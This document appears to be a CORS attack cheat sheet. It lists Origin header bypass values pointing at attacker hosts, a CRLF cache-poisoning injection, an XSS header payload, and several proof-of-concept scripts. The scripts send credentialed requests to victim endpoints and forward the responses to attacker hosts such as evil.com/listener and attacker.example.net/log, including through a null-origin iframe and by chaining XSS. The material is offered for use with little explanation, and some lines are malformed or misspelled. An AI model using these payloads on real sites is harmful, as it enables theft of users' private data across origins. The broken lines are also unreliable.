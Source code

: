 
# **CORS PAYLOADS**

    Origin: https://evil.com
    Origin: null
    Origin: https://evilexample.com
    Origin: https://evilexample.com
    Origin:null
    Origin:attacker.com
    Origin:attacker.target.com
    Origin:attackertarget.com
    Origin:sub.attackertarget.com
    Origin:attacker.com      and then change the method Get to post/Post to Get
    Origin:sub.attacker target.com
    Origin:sub.attacker%target.com
    Origin:attacker.com/target.com
    Origin:expected-host.com.attacker.com
    Origin:expected-host.computer
    Origin:foo@evil-host:80@expected-host
    Origin:foo@evil-host%20@expected-host
    Origin:evil-host%09expected-host
    Origin:127.1.1.1:80\@127.2.2.2:80
    Origin:127.1.1.1:80:\@@127.2.2.2:80
    Origin:127.1.1.1:80#\@127.2.2.2:80
    Origin:ß.evil-host



**Server-side cache poisoning:**

    Origin: z[0x0d]Content-Type: text/html; charset=UTF-7
    Access-Control-Allow-Origin: z
    Content-Type: text/html; charset=UTF-7

**Custom-http-header:** 

    user-id: <svg/onload=alert(1)>

## **Exploit:**

    #1
    <html>
	    <body>
             <h2>CORS PoC</h2>
             <div id="demo">
                 <button type="button"	onclick="cors()">Exploit</button>
             </div>
             <script>
                 function cors() {
                 var xhr = new XMLHttpRequest();
                 xhr.onreadystatechange = function() {
                     if (this.readyState == 4 && this.status == 200) {
                     document.getElementById("demo").innerHTML = alert(this.responseText);
                     }
                 };
                  xhr.open("GET",
                           "https://victim.example.com/endpoint", true);
                 xhr.withCredentials = true;
                 xhr.send();
                 }
             </script>
         </body>
     </html>
	
	     
	#2
	var req = new XMLHttpRequest();
	req.onload = reqListener;
	req.open('get','https://exaple.com/sens_data',true);
	req.withCredentials = true;
	req.send();
	
	function reqListener() {
	   location='127.0.0.1='+this.responseText;
	};
	
	
	
	#3
	<script>
	    document.location="http://subdomain.exaple.com/?xss=<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://exaple.com/sens_point',true); req.withCredentials = true;req.send();function reqListener() {location='https:/evil.com/listener?q='%2bthis.responseText; };%3c/script>"
	</script>
	     

 
**Null Origin:**
 
 

    <iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html, <script>
      var req = new XMLHttpRequest();
      req.onload = reqListener;
      req.open('get','https://victim.example.com/endpoint',true);
      req.withCredentials = true;
      req.send();
    
      function reqListener() {
        location='https://attacker.example.net/log?key='+encodeURIComponent(this.responseText);
       };
    </script>"></iframe> 


**exploit whith xss :** 

    https://subdomain.vulnerable-website.com/?xss="><script>cors-stuff-here</script>

